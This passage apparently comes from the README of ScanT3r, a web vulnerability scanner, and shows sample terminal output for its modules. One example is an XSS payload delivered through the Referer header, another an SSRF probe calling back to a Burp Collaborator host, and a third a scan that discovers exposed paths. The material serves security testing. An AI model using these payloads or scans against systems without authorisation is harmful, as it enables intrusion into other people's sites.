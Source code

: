 ```bash
|-----------------|
        

[!] Bug : Cross-site scripting
[!] Header: referer
[!] Payload: ">ScanT3r<svg/onload=confirm(/ScanT3r/)>web"
[!] Method: GET
[!] URL: https://menacoderrr.pythonanywhere.com
|-----------------|

```

* **lorsrf**

```bash
┌─[knassar702@PC]─[~/tools/scant3r]
└──╼ $echo 'http://yourtarget.com/' | python3 scant3r.py -m lorsrf -w 50 -R -x 'http://myhost.burpcollaborator.net'
+-+-+-+-+-+-+-+
|S|C|a|N|t|3|r|
+-+-+-+-+-+-+-+
             ____
            / . .\
            \  ---<
             \  /
   __________/ /
-=:___________/

[!] Coded by : Khaled Nassar @knassar702
[!] Version : 0.5#Beta
    	
[!] timeout : 10
[!] random-agent : False
[!] threads : 20
[!] module : lorsrf,
[!] URLS : 3
[!] host : None
```
<img src='images/call.png'>

* **paths**
```
┌─[knassar702@PC]─[~/tools/scant3r]
└──╼ $echo 'http://localhost/'| python3 scant3r.py -m paths -w 50


   ____              __  ____
  / __/______ ____  / /_|_  /____
 _\ \/ __/ _ `/ _ \/ __//_ </ __/
/___/\__/\_,_/_//_/\__/____/_/


[!] Coded by : Khaled Nassar @knassar702
[!] Version : 0.5#Beta
    	
[!] timeout : 10
[!] random-agent : False
[!] threads : 50
[!] module : paths,
[!] URLS : 1
[!] host : None

[+] Found :> http://loaclhost/phpinfo.php
[+] Found :> http://loaclhost/PI.php
```